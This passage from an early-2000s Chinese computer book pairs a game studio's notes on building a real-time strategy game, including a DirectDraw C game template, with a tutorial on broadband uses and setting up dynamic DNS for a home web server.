除了初始化等必要的操作以外，我们把游戏中的命令作为关键信息在网络上传递。游戏者对战场上的任何操作、下达的任何命令都会被传递给其他的计算机。如果游戏者没有操作，我们就在每一轮循环中传递同步信号。在这里笔者曾遇到了一个Direct Play中的问题，那就是信号并不是每次都会正确传递到对方那里，尽管我们在Direct Play中使用的参数要求系统必须在确认对方收到后才返回，可是它返回后对方依然没有收到（确实没有收到，这是Log文件中证实的）。关于这个问题笔者没有查看有关文档，也许有更好的解决办法，我们没有考虑很多，只是自己制作了一套校验确认的方法。

但是在本机上发布的命令传递到另一台计算机上时一定会有延迟，这就不能保证初始状态的一致。所以我们采用了轮询制。任何人发布命令并不会马上被执行，而是先存储到一个命令队列中。在每次循环中对曾经下达的所有命令统一进行发送、监听。当所有计算机都收到了所有计算机本轮要执行的命令之后，所有命令才开始被顺序执行。这样在任何一台计算机中本轮所有命令的内容和顺序都是相同的，执行时才能保证其结果的一致。

## 6. 兵种的颜色

兵种的颜色大概是即时战略游戏里最隐蔽的一个问题了。因为不做的人不知道，而做的人都心照不宣。在我们的游戏里，不同的君主用不同的颜色代表，属于该君主士兵则在它的衣服上赋予相应的颜色。这样虽然兵种相同但是他们的颜色不同，就可以区分敌我了。但是如果为每一个兵种都制作一套图像，就显得有些浪费了，会占用过多的内存（我们这里所有兵种的像素量约有10MB，如果有四种颜色就需要40MB的像素）。谁都希望找到一个好的办法节省这些内容。

方法很简单——抽色。在调色板里留出固定的位置，需要改变的颜色就按照顺序存储在这里。在显示时，会根据传递进来的君主号为每个像素的颜色进行判断，如果颜色在这些区域里就根据规则偏移。各种颜色的士兵就会显示出来，而只需要一份像素。

这种方法的缺点就是速度慢，毕竟需要对每个点进行判断和处理。所以这部分也是针对MMX优化的主要部分之一。

## 7. 行军算法

在这款游戏中我们还自制了一套行军算法。首先找到一条直线，然后围绕挡住这条直线的障碍物搜索一条可以行走的路线。说起来简单，做起来可很困难。这部分代码写了大约有四五个月。

当然它仍然有缺点，比如如果在路上的障碍物内部有空洞，那么就会卡住。好在它的速度还算可以，一百个人同时走路时才会感觉到一点停顿。

## 8. 缩略图

细节应该能够说明一个游戏的质量。细节越丰富，游戏的质量就越容易体现。缩略图的作用其实是很大的，除了能够让人看到整个战场的敌我情况外，还有一些功能，比如，哪里正在发生战斗的提示，有的游戏用一个扩散的小圈，有的用红色的圆点等。再比如，快速移屏的功能，只要鼠标点击缩略图上的某一点，战场屏幕就可以马上移动到该位置。各位玩家几乎可以只从缩略图的使用功能就能评价出一个实时战略游戏的水平。

## 9. 鼠标形状的转换

鼠标形状也算是游戏的细节，当它移动到某一个特殊地点的时候就会改变形状，形状的多寡也很有意思，它往往表示可以进行的操作，以避免误操作。比如鼠标移动到我方或敌方的建筑就会不一样，选中我方士兵后再移动到我方或敌方的建筑又会不一样。如果在一开始没有设计好结构，以后的修改就会很复杂。

## 10. Windows游戏程序模板

如果想编写在Windows下运行的游戏，就要对常规的Windows应用程序有所了解。所有Windows程序都是以WinMain()函数为主要入口点的，应用程序运行后，WinMain()开始执行注册窗口类、创建和显示窗口等一些初始化的工作，然后建立一个消息循环“while(GetMessage(&msg, NULL,0,0))”，等待系统或用户传送的消息（如击键盘、按鼠标等都会产生消息），应用程序一旦捕捉到消息，即通过消息循环内的TranslateMessage(&msg)或者DispatchMessage(&msg)函数将其发送到专门的窗口函数WinProc()中进行处理，并输出信息到显示器或打印机上，然后继续等待消息，这样循环往复直到用户退出程序为止。

我们下面将要介绍到的一个Windows游戏模板程序，实际上只是在标准的Windows程序中增加了三个函数：Game_Init()、Game_Shutdown()和Game_Main()。

这个模板程序首先进行必要的程序初始化，包括建立窗口、事件处理器和DirectX。然后开始建立一个每进行一次循环就运行一次void Game_Main (void)的消息循环。在void Game_Main(void)函数中，可以处理一切想要的效果，这里就是整个游戏进行的地方。另外两个函数void Game_Init(void)和void Game_Shutdown(void)分别在游戏开始时运行一次和在Windows事件主循环退出时运行一次。这样做的目的是希望在退出void Game_Main(void)时有机会释放程序资源，避免资源浪费。

这个游戏模板程序所吸引人的地方在于，它不用我们过分操心正在Windows中运行的程序，只要专心致志于写进显存、运行函数、分配内存等操作就可以了，它就像在一个DOS 32保护模式中运行的程序一样！

下文将列出这个模板程序的全部源代码，编者已在中文Win98+VC6.0环境下编译通过。游戏执行时，屏幕中央会显示一个闪动的小方块；用户可以用小键盘上的方向键移动它，所过之处将画出一道线条来。这个程序很简单，主要是为了给大家提供一个游戏的模板，有兴趣的读者可以将自己的游戏代码填入Game_Main函数中。

如果读者懒得输入这些代码，可在本书配套光盘中下载源代码。不过还是请读者详细阅读以下代码，因为其中有许多详尽的注释，会对你大有帮助。

不过需要注意的是，该模板程序是基于DirectDraw编写的二维游戏，所以编译之前，别忘了按Alt+F7键调出Project Settings窗口，然后点击Link标签，在对象/库模块中加上Ddraw.lib库。

另外，本书配套光盘中还收集了一款可玩性非常高的弹球游戏，也是基于这个模板编写的。大家可以玩玩这个游戏，有兴趣的也可以看看它的源代码。

```c
// DIRECT X 5.0游戏模板
#define WIN32_LEAN_AND_MEAN // 不装载MFC

#include <windows.h>
#include <windowsx.h>
#include <ddraw.h> // 引入DirectDraw组件
#include <stdlib.h>
#include <stdio.h>
#include <math.h>
#include <float.h>

#define WINDOW_CLASS_NAME "WINDOW_CLASS" // 窗口类名

// 定义屏幕参数
#define SCREEN_WIDTH 640 // 视频宽
#define SCREEN_HEIGHT 480 // 视频高
#define SCREEN_BPP 8 // 色彩位数
#define MAX_COLORS 256 // 最大色彩数

typedef unsigned char UCHAR;

// 实时键盘查询宏
#define KEY_DOWN(vk_code) ((GetAsyncKeyState(vk_code) & 0x8000) ? 1 : 0)
#define KEY_UP(vk_code) ((GetAsyncKeyState(vk_code) & 0x8000) ? 0 : 1)

int DD_Init(HWND hwnd);
int DD_Shutdown(void);
int Set_Pal_Entry(int index, int red, int green, int blue);

void Game_Init(void);
void Game_Main(void);
void Game_Shutdown(void);

// DirectDraw全局变量
LPDIRECTDRAW lpdd = NULL; // DD对象
LPDIRECTDRAWSURFACE lpddsprimary = NULL; // DD主显示画面
LPDIRECTDRAWPALETTE lpddpal = NULL; // DD调色板指针
PALETTEENTRY color_palette[256]; // 保存调色板色彩
DDSURFACEDESC ddsd; // DD显示画面的描述结构
DDSCAPS ddscaps; // 定义DD显示画面功能特性
HRESULT ddrval;
HWND main_window_handle = NULL; // 保存窗口句柄
UCHAR *video_buffer = NULL; // 显存指针

// DirectX函数
int DD_Init(HWND hwnd) {
    // 这个函数用来初始化DirectDraw, 创建主显示画面
    int index;

    if (DirectDrawCreate(NULL,&lpdd,NULL)!=DD_OK)
    {
        DD_Shutdown();
        return(0);
    }

    // 设置独占级别及屏幕模式
    if (lpdd->SetCooperativeLevel(hwnd,DDSCL_ALLOWREBOOT | DDSCL_EXCLUSIVE | DDSCL_FULLSCREEN | DDSCL_ALLOWMODEX)!=DD_OK)
    {
        DD_Shutdown();
        return(0);
    }

    // 开始设置显示模式
    if (lpdd->SetDisplayMode(SCREEN_WIDTH,SCREEN_HEIGHT,SCREEN_BPP)!=DD_OK)
    {
        DD_Shutdown();
        return(0);
    }

    // 创建主显示画面
    ddsd.dwSize = sizeof(ddsd);
    ddsd.dwFlags = DDSD_CAPS;
    ddsd.ddsCaps.dwCaps = DDSCAPS_PRIMARYSURFACE;

    if (lpdd->CreateSurface(&ddsd,&lpddsprimary,NULL)!=DD_OK)
    {
        DD_Shutdown();
        return(0);
    }

    // 创建调色板并连接到主显示画面

    // 将RGB值都清为0
    memset(color_palette,0,256*sizeof(PALETTEENTRY));

    for (index=0; index<256; index++)
    {
        if ((index / 64)==0)
        {
            color_palette[index].peRed = index*4;
            color_palette[index].peGreen = index*4;
            color_palette[index].peBlue = index*4;
        }
        else
        if ((index / 64)==1)
            color_palette[index].peRed = (index%64)*4;
        else
        if ((index / 64)==2)
            color_palette[index].peGreen = (index%64)*4;
        else
        if ((index / 64)==3)
            color_palette[index].peBlue = (index%64)*4;

        color_palette[index].peFlags = PC_NOCOLLAPSE;
    }

    if (lpdd->CreatePalette((DDPCAPS_8BIT | DDPCAPS_INITIALIZE),color_palette,&lpddpal,NULL)!=DD_OK)
    {
        DD_Shutdown();
        return(0);
    }

    // 将调色板连接到主显示画面
    lpddsprimary->SetPalette(lpddpal);

    return(1);

} // 结束DD_Init

int DD_Shutdown(void)
{
    // 这个函数用来测试DD组件是否创建或释放
    // 它将返回操作系统

    // 测试DD对象
    if (lpdd)
    {
        // 测试主显示画面
        if(lpddsprimary)
        {
            // 释放内存并将指针设为NULL
            lpddsprimary->Release();
            lpddsprimary = NULL;
        }

        // 释放DD对象自身
        lpdd->Release();
        lpdd = NULL;

        return(1);
    }
    else
        return(0);

} // 结束DD_Shutdown

int Set_Pal_Entry(int index, int red, int green, int blue)
{
    // 这函数用来设置调色板的颜色

    PALETTEENTRY color;

    // 设置RGB结构
    color.peRed = (BYTE)red;
    color.peGreen = (BYTE)green;
    color.peBlue = (BYTE)blue;
    color.peFlags = PC_NOCOLLAPSE;

    // 填充调色板
    lpddpal->SetEntries(0,index,1,&color);

    memcpy(&color_palette[index],&color,sizeof(PALETTEENTRY));

    return(1);

} // 结束Set_Pal_Entry

// 窗口回调函数
LRESULT CALLBACK WindowProc(HWND hwnd, UINT msg, WPARAM wparam, LPARAM lparam)
{
    // 这里处理一般的Windows窗口消息

    HDC hdc;
    PAINTSTRUCT ps;

    // 消息处理分支
    switch(msg)
    {
        case WM_CREATE:
        {
            // 在这里初始化Windows窗口
            return(0);
        } break;

        case WM_PAINT:
        {
            // 窗口重画
            hdc = BeginPaint(hwnd,&ps);
            EndPaint(hwnd,&ps);

            return(0);
        } break;

        case WM_DESTROY:
        {
            // 关闭窗口时发送退出消息
            PostQuitMessage(0);
            return(0);
        } break;

        default:break;

    } // 结束消息分支的处理

    // 没有处理的消息, 将由此函数自行处理
    return (DefWindowProc(hwnd, msg, wparam, lparam));

} // 结束WinProc

// 主程序入口
int WINAPI WinMain( HINSTANCE hinstance, HINSTANCE hprevinstance, LPSTR lpcmdline, int ncmdshow)
{
    WNDCLASSEX winclass; // 保存窗口类信息
    HWND hwnd; // 保存窗口句柄
    MSG msg; // 保存消息

    // 首先填充窗口类结构
    winclass.cbSize = sizeof(WNDCLASSEX);
    winclass.style = CS_DBLCLKS | CS_OWNDC | CS_HREDRAW | CS_VREDRAW;
    winclass.lpfnWndProc = WindowProc;
    winclass.cbClsExtra = 0;
    winclass.cbWndExtra = 0;
    winclass.hInstance = hinstance;
    winclass.hIcon = LoadIcon(NULL, IDI_APPLICATION);
    winclass.hIconSm = LoadIcon(NULL, IDI_APPLICATION);
    winclass.hCursor = LoadCursor(NULL, IDC_ARROW);
    winclass.hbrBackground = (HBRUSH)GetStockObject(BLACK_BRUSH);
    winclass.lpszMenuName = NULL;
    winclass.lpszClassName = WINDOW_CLASS_NAME;

    // 注册窗口类
    if (!RegisterClassEx(&winclass))
        return(0);

    // 创建窗口
    if (!(hwnd = CreateWindowEx(WS_EX_TOPMOST,
        WINDOW_CLASS_NAME, // 窗口类名
        "You can't See This!", // 窗口标题
        WS_VISIBLE | WS_POPUP,
        0,0,
        GetSystemMetrics(SM_CXSCREEN),
        GetSystemMetrics(SM_CYSCREEN),
        NULL,
        NULL,
        hinstance,
        NULL)))
        return(0);

    // 隐藏鼠标
    ShowCursor(0);

    // 保存窗口句柄
    main_window_handle = hwnd;

    // 初始化DirectDraw
    if (!DD_Init(hwnd))
    {
        DestroyWindow(hwnd);
        return(0);
    }
```// 初始化游戏
Game_Init();

// 进入消息循环
while(1)
{
    if (PeekMessage(&msg,NULL,0,0,PM_REMOVE))
    {
        if (msg.message == WM_QUIT)
            break;

        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
    else
    {
        memset(&ddsd,0,sizeof(ddsd));
        ddsd.dwSize = sizeof(ddsd);
        lpddsprimary->Lock(NULL, &ddsd, DDLOCK_SURFACEMEMORYPTR, NULL);
        video_buffer = (UCHAR *)ddsd.lpSurface;

        // 调用游戏主模块
        Game_Main();

        lpddsprimary->Unlock(ddsd.lpSurface);
    }
} // 结束消息循环

// 关闭DirectDraw
DD_Shutdown();

// 关闭游戏
Game_Shutdown();

// 返回 Windows
return(msg.wParam);

} // 结束 WinMain

// 游戏模块的实现

void Game_Init(void)
{
    // 这里可加入游戏初始化代码
}

void Game_Shutdown(void)
{
    // 释放和清除所有的资源
}

void Game_Main(void)
{
    // 这里加入主要的游戏代码

    static int px = SCREEN_WIDTH/2,
    py = SCREEN_HEIGHT/2,
    color = 0;

    if (KEY_DOWN(VK_ESCAPE))
        PostMessage(main_window_handle, WM_CLOSE,0,0);

    if (KEY_DOWN(VK_RIGHT))
        if (++px>SCREEN_WIDTH-8) px=8;

    if (KEY_DOWN(VK_LEFT))
        if (--px<8) px=SCREEN_WIDTH-8;

    if (KEY_DOWN(VK_UP))
        if (--py<8) py=SCREEN_HEIGHT-8;

    if (KEY_DOWN(VK_DOWN))
        if (++py>SCREEN_HEIGHT-8) py=8;

    if (KEY_DOWN('C'))
    {
        if (++color>=4)
            color=0;
        Sleep(100);
    }

    for (int pixels=0; pixels<32; pixels++)
        video_buffer[(px-4+rand()%8)+(py-4+rand()%8)*SCREEN_WIDTH] = (color*64)+rand()%64;

    Sleep(14);

} // 结束 Game_Main

笔者认为，制作游戏就是在创造一个世界，虽然我们的这个世界还无法与真实的世界相比。但是，只要我们做了，就会有进步，就会离我们的梦想近一点。

真心地希望能有更多的人了解游戏的制作，了解制作游戏的人，也希望有更多的人加入到这个充满了艰辛和幻想的事业中来。因为美好的明天需要我们共同去创造，我们为游戏付出了很多，它也会同样地回报我们。

（文／瞬间工作室）

## 精彩宽带网 P257

随着宽带的日益普及，Internet正在摆脱带宽的限制，应用领域更加广阔。利用宽带网进行个人服务器架设、远程控制、网络视频通讯、语音聊天、流媒体应用、网络视听等都已成为可能。本专题以实例为向导，诠释了宽带网的精彩应用，同时也勾画了一幅完整的宽带网应用蓝图。


## 网络无限 Network World

## 无线通信网络全接触 P302

作为传统布线网络的一种替代方案，无线网络具备移动性、易用性、安全性等多种优点。但是，你了解无线网络吗？你知道如何使用吗？本专题将从WAP、GPRS、CDMA、蓝牙、红外线和无线局域网等六个方面将无线网络的知识和使用方法介绍给大家，并配以详细的操作案例，可以让您在学习无线知识的同时，极大地提高动手能力。

## 通通透透话‘代理’ P323

代理服务器作为用户访问网络的中转站，有许多特殊的运用，如充当防火墙、节省IP开销、提高访问速度等。本专题对代理服务器的工作原理、类别、相关客户端设置以及各种特殊应用等进行系统的讲述，使读者能“通通透透”了解代理服务器及其使用。

## 精彩宽带网

随着宽带网络的日益普及，Internet 正在逐渐摆脱网络带宽的限制，使各种网络多媒体信息的传播成为可能，一些有条件的宽带用户开始尝试起在互联网上的视频、音频通讯与聊天，甚至开始利用充裕的带宽和个人电脑来架设网络服务器。这一切使个人用户对互联网的应用更加广泛，也变得更加精彩……

### 一、宽带应用综述

宽带网最大的优势就体现在其上传和下载速度快，相对于窄带来说，这是无法比拟的。因而，宽带的出现，在各个领域中得到了广泛的应用，无论是对于企业用户，还是个人用户，在应用领域都产生了深远的影响。

#### （一）宽带网简述

宽带网是指在传统网络传输介质上，采用新的技术和设备实现高速的传输速率，其网络传输速度可以达到 256K 以上。目前，宽带的普遍接入方式主要包括以下几种。

- (1)基于电话线路的 XDSL 数字用户线路技术，这种技术采用先进的数字编码技术和调制解调器在常规的用户铜质双绞线上传送宽带信号。目前比较成熟的接入方案包括 ADSL、HDSL、SDSL 和 VDSL，通称为 XDSL 技术。

- (2)基于有线电视网宽带技术，它可以用于有线电视网络进行数据传输，它融合了数字与模拟传输技术特点，在提供高质量和多频道的广播电视节目的同时，还可以逐步开展交互式数字视频节目。

- (3)DDN 数字专线接入方式采用数字传输信道传输数据信号，采用固定连接方式，直接进入电信的 DDN 网络，因而被称为 DDN 专线。

除了前面介绍的几种接入方式以外，宽带接入方式还包括光纤 FFTB 接入方式、卫星接入、微波无线接入等多种接入方式，这里就不一一介绍了。

#### （二）宽带的特点和优势

宽带上网具有传输高、费用较低、服务范围广泛的特点。它可以提供各种多媒体服务，而且 24 小时随意上网，不受时间限制，采用全新的网络结构，维护方便，而且可靠性和安全性高，扩展性强。适用政府、企业、各类数据中心、学校、信息化小区、商务写字楼、酒店等。

拨号接入和一线通最高上网速率只有 56K 和 128K，而宽带可以达到 1MB 以上。窄带网速度较慢，需要专用设备接入，而且需要拨号上网，应用范围有限，但是初装费用较低。相对来说，宽带具有很高的传输速度，在配合使用专用设备接入的同时，可以随时上网而无需拨号，同时还能提供各种宽带服务，但是初装费较高。

#### （三）宽带来了，我们能作什么

宽带由于其传输速度快，因而应用范围非常广泛。除了与普通的互联网有相同的应用外，还可以进行视频点播、网上教学、虚拟现实、网络游戏、举行电视会议、拨打视频电话等服务。

此外，对于宽带的普通家庭用户和个人而言，还可以根据宽带网 24 小时在线的特点，定制自己的家庭主机，在家里就可以建立一个小型网站，而无需因租赁虚拟主机耗费一笔不菲的费用了。此外，还可以建立一个家庭网络广播电台、电视台、架设网络游戏服务器、建立论坛、远程控制家里的电脑，还可以采用远程监控技术给家里安装一个监控摄像头，从而实现对你的家进行 24 小时的监控。

在本文中，我们将主要针对个人宽带用户，对宽带网络的精彩应用进行一次详细的介绍。

### 二、架设个人网站服务器

宽带的接入给家庭用户建立个人网站带来了可能。建立网站首先要做的就是要有一台“Internet 服务器”，想必经常上网的读者早已经对网络上各种服务器很熟悉了，每一个上网的用户时刻都与这些服务器有着密不可分的联系。其中 Web 服务器，即 WWW 服务器的应用范围最广泛，也是最重要的网站服务器。除此以外，还包括提供文件传输的 FTP 服务器、电子邮件服务器、DNS 域名服务器、Internet 代理服务器、远程登录服务器等。网站服务器也有自己的操作系统，目前常见的操作系统包括 Unix、Windows 2000/NT、Novell NetWare 等。一般来说，大型的网站一般都采用Unix操作系统，对于中小型服务器来说，比如小型的网站或者家庭建站用户，一般采用Windows 2000/NT，除了操作系统以外，还需要建立一套完整的网站服务器，以及相关的网络通信协议和服务器平台做为载体，比如Internet信息服务器平台IIS、电子邮件服务器系统Exchange Server、数据库服务平台SQL Server等。

### (一)动态域名解析

我们知道，连入互联网的电脑主机在通信时可以相互识别，是因为每一台主机都有一个唯一的32位地址，这个地址就是IP地址，IP地址由4个数组成，每个数可取值0~255，各数之间用一个点号“.”分开，比如61.161.205.13。由于数字地址不便于记忆，国际互联网组织在1984年引入了“域名”概念为网上的服务器进行命名，比如将IP地址为“61.161.205.13”的服务器命名为“www.abc.com”，这样用户在网络访问时只要记住域名就可以进行访问了。当我们输入一个服务器域名地址后，计算机并不能马上识别我们将访问的服务器，而是要将这个域名发送到互联网上的某个服务器上进行查询，服务器在查询后将通知浏览器与这个域名相对应服务器的IP地址，浏览器在返回的IP地址后才能连接到服务器并进行访问。那么这台负责解析域名和IP地址的服务器就被称为域名服务器(Domain Name Server)，简称为DNS服务器。

由于互联网上的IP地址资源有限，而架设网站服务器的计算机又必须具有固定的IP地址，对于家庭建站用户而言这是无法实现的，因而动态域名解析技术就成为了架设个人服务器的关键技术之一。动态域名需要在Internet上专门提供一个用于域名解析的服务器，每次上网后，请求域名的用户计算机上的客户端软件都会把IP地址向服务器报告，服务器将动态地调整与域名相对应的IP地址，这样无论IP地址怎么变化，都能通过域名找到与之相应的计算机的IP地址，也就找到了家庭用户建立的网站。图1表示的是动态域名的实现原理。

动态域名解析需要有专门的客户端软件和服务器端相配合，目前网络上提供动态域名的网站也比较多，比较常见的包括花生壳、旭锐达(DynamicHost)佳信——88IP、DeerField——DNS2Go等。


利用动态主机您可以将电脑设置成一台Web服务器、FTP服务器、NEWS服务器、媒体服务器、MUD服务器或其他互联网游戏服务器。下面我就来介绍两款比较典型的动态域名解析工具的使用，从而拉开我们建设家庭网站的序幕。

- 1.花生壳动态域名解析

“花生壳”(PeanutHull)是由网域科技有限公司设计的一款功能强大，使用简便的动态域名解析服务软件。用户可以选择自己的固定域名，通过PeanutHull将之与动态IP地址绑定，这样个人电脑就可成为互联网上的一台真正的服务器，而无需缴付主机空间租用费，也无须为申请固定IP办理繁琐的手续，随时都可以在自己的电脑上进行网站开发，架设FTP站点，建立自己的邮件服务器，或者网络游戏服务器等。

花生壳支持的线路包括普通电话线、ISDN、ADSL、有线电视网络、双绞线到户的宽带网和其它任何能够提供互联网真实IP的接入服务线路，而无论连接获得的IP属于动态还是静态。对于使用动态IP接入的用户而言，可以利用花生壳在办公室或家庭建立拥有固定域名的互联网主机，由于不受线路类型、主机存放地点的约束，所以可以根据自己的需求选择合适的系统平台、数据库平台和站点运营模式，并由此获得最大限度的自主性。对于使用静态IP接入的用户而言，特别是使用独立主机托管的用户，可以利用花生壳提供的域名解析服务来避免在不断转换服务商时，需要不断向域名解析服务商重复复杂的修改过程，完全实现域名解析的自主性。

- (1)系统需求

花生壳只能运行在Windows 98/ME/NT/2000/XP操作平台上，对于硬件系统的要求，只要可以正常运行相应的Windows操作系统即可。关于网络环境，在开始使用花生壳之前，必须首先拥有任何一种上网方式，而且必须拥有有效的互联网IP地址。目前花生壳不支持用户以局域网共享的方式接入互联网。

- (2)申请傲锐护照

花生壳是一套完全免费的动态域名解析服务客户端软件，可以在http://www.oray.net/Products/下载获得。使用花生壳的用户可以自己选择属于自己的域名，域名的形式为“xxx.vicp.net”。

在开始安装之前，需要进入http://www.oray.net/workstation 页面申请傲锐护照，单击“页面中的“申请傲锐护照”链接，打开申请页面，如图2所示。


在弹出的对话框中，填写好傲锐护照用户帐号、密码、昵称、电子邮箱地址，然后单击【下一步】，如图3所示。


如果帐户名称没有重复，那么就会弹出一个注册成功界面，这时我们已经申请到了一个用户名为itnow的帐号，单击【关闭窗口】按钮，这时可以接受傲锐发送给你的电子邮件，通知你已经成功申请到了傲锐护照。如图4所示。


- (3)花生壳安装与使用

花生壳的安装使用过程比较简单，下面做一下简要的介绍。

单击启动花生壳安装程序，选择安装语言为【简体中文】，然后单击【确定】，如图5所示。


在弹出的对话框中，单击【下一步】按钮，阅读“许可协议”后，单击【是】按钮继续安装，并弹出【客户信息】对话框，输入用户名和公司名称，并单击【下一步】按钮，如图6所示。


在弹出的【信息】对话框中，直接单击【下一步】继续安装，弹出【帐户信息】对话框，输入我们在傲锐网站注册成功的帐户名和密码，并单击【下一步】按钮继续安装，如图7所示。


接下来需要选择软件安装路径，系统默认的安装路径是“D:\Program Files\ORAY\PeanutHull”，单击【下一步】按钮，选择安装文件夹，可以保持系统默认值，然后单击【下一步】按钮，如图8所示。

最后，安装系统提示，依次单击【下一步】按钮完成安装过程，完成安装后，会询问是否启动软件，单击【完成】按钮，完成软件的安装过程。

- (4)花生壳域名注册与解析

首次启动花生壳，会出现一个软件的连接对话框，这里是软件自动设置登录信息，如图9所示。


此时系统会提示还未注册域名，单击【确定】按钮。如图10所示。


在完成“傲锐护照”注册后，还需要注册“花生壳”(PeanutHull)服务才能激活服务。这时我们可以根据自己的情况，申请感兴趣的域名，比如可以选择使用Vicp.net提供的免费域名，比如yourname.vicp.net的格式，也可以使用自己已经拥有的国际域名或国内域名。一个“傲锐护照”可以管理多个域名，但上限为16个。

在浏览器中，打开如下网址:http://www.oray.net/Register/Services/LoginPassport.asp, 输入的帐号名称和密码，然后单击【登录】按钮，如图11所示。


注册结束以后，会给出注册成功界面。 当注册了一个mingjian.vicp.net的域名后，返回到“花生壳”登录对话框，单击【刷新】按钮，返回已经注册的域名，此时域名解析服务已经启动了，如图13所示。


单击【确定】按钮，软件界面将缩小成最小化图标并显示在屏幕右下角的“任务栏托盘”中。在未连通网络时，任务栏托盘中的花生壳软件图标为灰色，当连通网络后，图标就会变为红、绿、蓝三色。软件就可以成功运行，虚拟域名也将生效。

最后，为了验证域名解析是否生效，可以打开DOS命令提示符窗口，输入命令行“ping mingjian.vicp.net”来验证软件是否正常工作。

需要提醒的是，在防火墙内不能使用花生壳软件，因为花生壳运行的时候必须访问傲锐公司提供的动态域名注册服务器，该服务器负责验证用户账号和处理花生壳定期发送的连接确认数据，这两个服务分别使用TCP 5050和UDP 5050端口，所以必须开放上述远程端口，花生壳才能在防火墙内正常工作。此外，部分宽带网用户也不能使用花生壳软件，目前一些宽带接入服务商使用了地址转换技术将自己的宽带网络连接到Internet上，在宽带网内部则使用了内部地址，这样会导致宽带用户不能通过动态注册的域名向 Internet提供服务。

用户可以在DOS窗口下运行ipconfig或netsrat命令来判断宽带接入服务商提供的IP地址，如果这些IP地址在以下范围内，那么就说明服务商使用了地址转换技术。

- 192.168.0.1～192.168.255.255
- 172.16.0.1～172.16.31.255
- 10.0.0.1～10.255.255.255

- 2. 旭锐达(DynamicHost)动态域名解析

旭锐达(DynamicHost)是由上海旭锐达计算机科技有限公司开发研制的一款域名解析客户端服务程序，在使用之前需要注册动态主机，并收取注册号码后，下载动态客户端程序，填写注册码以后就可以享受其服务了。

- (1)注册动态主机账号/域名

在浏览器地址栏输入网址：http://china.sharella.com/register，打开注册页面首页，并认真阅读“旭锐达用户服务使用条款”后，单击【下一步】按钮，在打开的“填写用户注册信息”页面填写注册信息，完成后单击【注册】按钮。

注册结束以后，会提示注册码已经发送到注册邮箱中，此时可以打开邮件收发程序接收注册码。现在我们已经拥有了一个域名为 itnow.sharella.com的网址。

- (2)安装

在浏览器地址栏输入网址：http://china.sharella.com/download，并在打开的页面中下载动态主机客户端程序。

动态主机可以在Windows 98/ME/NT/2000/XP操作系统下运行，可以运行在任何一款互联网浏览器中。运行动态主机要求网络能提供TCP/IP协议支持，并能得到公共IP地址。动态主机支持除了Proxy(代理服务器)和NAT(网络地址转换)之外的所有互联网连接类型。需要说明的是，在NAT开启静态端口映射的情况下动态主机可以支持NAT或Proxy用户。
动态主机的安装过程属于Windows标准安装程序，可以根据向导提示，依次单击【下一步】按钮即可快速完成安装。

- (3)快速设置动态主机

启动动态主机客户端软件，选择“动态主机”选项，在“变更用户”中，输入注册码，然后单击【变更】按钮，完成后刚才注册的动态域名就生效了，并且状态将置为“在线”。当动态域名在线时，就可以通过动态域名访问本地计算机提供的各种服务了，如图14所示。


如果要禁用动态域名，以断开与动态主机服务器的连接，可以用鼠标右键单击位于系统栏中的动态主机图标，然后在弹出的快捷菜单中执行【连接/签出】命令，这时动态域名的状态将置为“离线”，当动态域名离线时，将无法访问已经设置的域名。如果要重新启用动态域名，可以用鼠标右键单击系统栏中的动态主机图标，并选择菜单【连接/签入】命令即可将动态域名设置为“在线”。

- (4)域的设置

我们可以随时修改动态域名，所有的设置将被新的动态域名继承。在主界面窗口中选择【域的设定】


标签，并在“二级域名”中填入一个新的前缀和选择一个新的后缀，在专业版用户中，还可以设置解析自己的顶级域名，比如 www.yourname.com。完成修改以后，单击【确定】或者【应用】按钮即可，如图 15 所示。

另外，在域的设置中还有以下几个选项。

- **【将域名指向当前在线IP地址(推荐)】选项**: 选择此项可以将动态域名和当前IP地址实时对应起来，通过动态域名就可以随时访问你的计算机提供的各种服务。
- **【指定域名在线IP地址】选项**: 此项用于将域名和一个静态IP地址对应起来，建议具有固定公共IP地址或有特殊需求的用户使用。
- **【指向我的用户信息页】选项**: 将访问你的动态域名网站的用户重定向到一个显示关于域的介绍和新闻发布的页面。
- **【智能重定向】选项**: 通过使用智能重定向向导，可以将用户对于服务器的 Web(网站)访问请求转换成指定的协议或格式。可以设置成网站所提供的服务的协议，比如，HTTP、FTP 或其他服务端口，如 80、8080 等。下面来介绍一下智能重定向的设置。

动态主机中内置了一些智能重定向向导，单击右侧的【向导】按钮，打开【重定向向导】页面，比如我们的域名是 itnow.sharella.com，在协议中选择“http”，服务器设置为“My Server!”，这样是为了在动态主机工作时会自动指向本机的当前IP地址。端口设置为8000，目录设置为myhome，这个目录可以是IIS上的一个虚拟目录，需要提醒的是，必须是Web服务或其他服务的某个相对目录，不能是绝对路径，比如Web服务的根目录是“c:\Web\”，而你打算指定目录为“c:\Web\myhome\”，那么正确写法是“myhome” 而“c:\Web\myhome\”，文件名称可以设置为index.htm，如图 16 所示。


这时，如果用户通过浏览器，在地址栏中敲入“http://itnow.sharella.com”进行访问，会自动重定向到一个新的地址“http://<您的当前IP地址>:8000/myhome/index.htm”。

## (5)管理主机 A 记录与别名

主机 A 记录是最常见的 DNS 记录之一。主机 A 记录的格式为“主机名 - IP地址”。比如说，在一个 DNS 域中(sharella.com)，添加一个主机 A 记录，主机名为“itnow”，对应的 IP 地址为“1.2.3.4”，那么用户就能够通过域名“itnow.sharella.com”访问到 IP 地址为“1.2.3.4”的计算机，最简单的应用就是使用 Ping itnow.sharella.com命令后返回1.2.3.4这个 IP 地址。

别名记录也是最常见的 DNS 记录之一。别名记录的格式为“别名 - 主机名”。比方说，有一台计算机的IP地址为“1.2.3.4”，有一条主机记录为“itnow.sharella.com”与之对应，那么通过“itnow.sharella.com”就能访问到IP地址为“1.2.3.4”的计算机上的服务，如果这是台 Web 服务器，我们希望用户通过“www.itnow.sharella.com”这样的名字来访问它，此时可以创建一条别名记录名为“www”，对应主机记录为“itnow.sharella.com”，这样用户就可以通过“www.itnow.sharella.com”来访问IP地址为“1.2.3.4”的计算机了。

添加 A 记录可以选择打开【资源记录】标签，然后选中【主机】单选框，并输入主机名和相应的 IP 地址即可。同样道理，也可以设置好别名记录，如图 17 所示。


## (二) 架设个人 Web 服务器

在前面我们已经学会了如何解析自己的域名，对于建站来说，下一步就可以建立自己的 Web 服务器，并接受来访者的访问了。目前提供架设Web服务器的软件比较多，常见的有 Windows NT 或 2000 的 IIS、Apache，另外，还有很多可用于 Windows 9x的Web 服务器，比如 AOLserver、Amiga Web Server、Netscape Enterprise Server、Roxen WebServer等。

不同软件支持的功能一般大同小异。

## 1. 使用 APACHE 架设 Web 服务器

